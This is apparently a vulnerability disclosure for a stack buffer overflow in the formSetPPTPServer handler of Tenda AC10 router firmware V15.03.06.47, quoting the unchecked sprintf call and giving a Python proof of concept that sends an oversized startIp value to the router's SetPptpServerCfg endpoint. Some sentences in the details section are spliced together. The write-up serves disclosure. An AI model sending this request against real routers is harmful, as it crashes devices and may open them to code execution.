




# Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC10 

**Affected firmware version:**  V15.03.06.47

**Firmware download address:** https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip

# Overview

A buffer overflow vulnerability exists in the `formSetPPTPServer` function of the Tenda AC10 router. By sending a crafted HTTP request with a malicious `startIp` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.


# Vulnerability details




There is a buffer overflow vulnerability in the `formSetPPTPServer` function of the Tenda AC10 router running firmware version V15.03.06.47.




The program does not perform proper boundary checks on the `pptp_server_start_ip` parameter and uses the following code:



sprintf(pptp_server_c_ip, "%s-%s", pptp_server_start_ip, pptp_server_end_each_ip[3]);

If a `pptp_server_start_ip` parameter longer than 0x170 bytes is provided, then, by manipulating parameters such as `wl24g_work_mode`, `wl5g_work_mode`, `serverEn`, and `endip`,
 the attacker may be able to influence the program's control flow or memory layout, increasing the chances of successful exploitation.it will overflow the target buffer `pptp_server`, potentially causing a segmentation fault. A remote attacker could exploit this issue to cause a denial of service or possibly achieve arbitrary code execution.

# POC

```python
import requests


url = "http://192.168.2.131/goform/SetPptpServerCfg"
payload=b'a'*0x170

params = {
    "wl24g_work_mode": "apclient",
    "wl5g_work_mode": "apclient",
    "serverEn" :"1",
    "startIp": payload,
    "endIp": "aaa"

}
headers = {
    "Host": "192.168.2.131",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "text/plain, */*; q=0.01",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "keep-alive",
    "Referer": "http://192.168.2.131/main.html",
    "Cookie": "password=jubmji; bLanguage=zh",
    "Priority": "u=0"
}

response = requests.get(url, params=params, headers=headers)
response = requests.get(url, params=params, headers=headers)

```



